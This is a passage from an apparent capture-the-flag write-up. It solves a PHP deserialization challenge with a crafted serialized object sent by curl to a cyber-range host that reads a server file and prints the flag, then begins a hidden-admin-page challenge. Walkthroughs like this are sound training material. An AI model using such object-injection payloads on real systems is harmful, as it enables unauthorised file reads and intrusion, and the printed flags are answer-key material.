 We set the `filename` variable we saw in `secret_cereal_archive` and the location inside the comment. Basically we are redirecting `cereal_name` to `__tostring` inside `secret_cereal_archive`. Our serialized string:
```
O:6:"cereal":3:{s:11:"cereal_name";O:21:"secret_cereal_archive":1:{s:8:"filename";s:27:"/var/www/secret_archive.txt";}s:13:"cereal_flavor";s:6:"FLAVOR";s:12:"cereal_brand";s:5:"BRAND";}
```

Lets see if we get the flag:
```
┌──(kali㉿kali)-[~]
└─$ curl -X POST https://cerealize.challenges.virginiacyberrange.net/cerealize.php -F 'cereal="O:6:\"cereal\":3:{s:11:\"cereal_name\";O:21:\"secret_cereal_archive\":1:{s:8:\"filename\";s:27:\"/var/www/secret_archive.txt\";}s:13:\"cereal_flavor\";s:6:\"FLAVOR\";s:12:\"cereal_brand\";s:5:\"BRAND\";}"'
...

Thanks for submitting a new cereal for our archive!You told us aboutflag{d0nt_d3s3r1l1z3_us3r_1nput}
; we'll see if it's in our archive! If not, we'll add it.
</html>
```

And we got the flag:
Answer:
```
flag{d0nt_d3s3r1l1z3_us3r_1nput}
```

## Juggling Fan Club - 20pts
> I made a website dedicated to my favorite activity, juggling! I’m sure it’s super secure, but just to make sure, can you try to hack your way in and gain administrative access?
> 
> Flag is of the form "flag{}" <br>
> Created by US Cyber Range
> 
> http://juliet.virginiacyberrange.net/

Looking into the site, I found this comment on `/guide.html`:
```html
<!--
I'll add more content later. If you want to add to the guide, you already know where the admin page is. I didn't link to it anywhere, so it should be impossible for hackers to ever discover it, right?
-->
```

Looks like another apache project, lets try `/admin.php`:

![admin.php](https://i.imgur.com/omfZg7M.png)

We were correct. Looking into the page source we find another comment:
```html
<!--
I just hard-coded the creds and I'm comparing strings for now until I can figure out this whole SQL thing.
Don't worry, the password is really complicated. Nobody's going to guess it.
-->
```

